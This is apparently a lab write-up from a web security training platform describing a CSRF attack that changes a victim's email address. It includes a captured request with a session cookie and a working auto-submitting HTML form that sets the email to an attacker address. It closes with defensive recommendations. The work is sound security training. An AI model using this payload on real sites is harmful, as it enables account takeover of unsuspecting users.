

# 🧪 Lab Report: CSRF Vulnerability with No Defenses

## 🔒 Lab Title

**CSRF vulnerability with no defenses**

## 📋 Objective

Exploit a CSRF (Cross-Site Request Forgery) vulnerability to change the email address of a victim user account.

---

## 🕵️‍♂️ Recon & Vulnerability Identification

### 🔍 Intercepted Request

Using Burp Suite, the following POST request was captured when updating the email address:

```
POST /my-account/change-email HTTP/2
Host: 0a4e00d20397daa380680307009a006b.web-security-academy.net
Cookie: session=PJLz8yI77g67Tls3bugt9iUBeSPoUN1z
Content-Type: application/x-www-form-urlencoded
Referer: https://0a4e00d20397daa380680307009a006b.web-security-academy.net/my-account?id=wiener

email=wiener2%40gmail.com
```

### ✅ Key Observations

* No CSRF tokens in the request
* No validation of `Origin` or `Referer` headers
* Uses `application/x-www-form-urlencoded` (easily spoofable by HTML forms)
* SameSite attribute is not set on the session cookie (allowing cross-site sending)

---

## 🎯 Attack Strategy

Exploit the lack of CSRF defenses by crafting an auto-submitting HTML form that sends a forged POST request from the victim’s browser to the vulnerable endpoint.

---

## 🛠️ Exploit Code (Stored on Exploit Server)

```html
<html>
  <body>
    <form action="https://0a4e00d20397daa380680307009a006b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## 🚀 Execution

1. Uploaded the exploit HTML to the provided **exploit server**
2. Clicked **"Store"**
3. Clicked **"Deliver exploit to victim"**
4. The lab was **marked as Solved** after the victim's email was updated to the attacker's value
5. 


---

## ✅ Conclusion

The CSRF attack was successful due to:

* Absence of anti-CSRF tokens
* Lack of `SameSite` cookie policy
* No `Origin` or `Referer` header validation

This highlights the importance of implementing **defense-in-depth** mechanisms, including:

* CSRF tokens
* `SameSite` cookies (`Strict` or `Lax`)
* Server-side validation of `Origin` or `Referer` headers

---